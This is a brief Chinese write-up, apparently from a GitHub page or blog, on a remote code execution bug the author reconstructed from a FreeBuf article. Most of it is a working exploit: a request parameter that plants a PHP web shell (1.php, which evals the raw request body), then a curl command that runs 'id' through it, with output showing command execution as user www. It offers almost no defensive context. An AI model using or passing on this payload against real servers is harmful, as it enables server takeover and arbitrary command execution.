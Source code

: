 今天看了这篇文章

https://www.freebuf.com/vuls/217586.html 

看到有个rce被打码了，于是分析一下代码。搞定。

?a=fetch&content=<?php+file_put_contents("1.php","<?php+@eval(file_get_contents('php://input'));");

➜ curl http://xxxxxxx/1.php --data "system('id');"    
uid=1000(www) gid=1000(www) groups=1000(www)
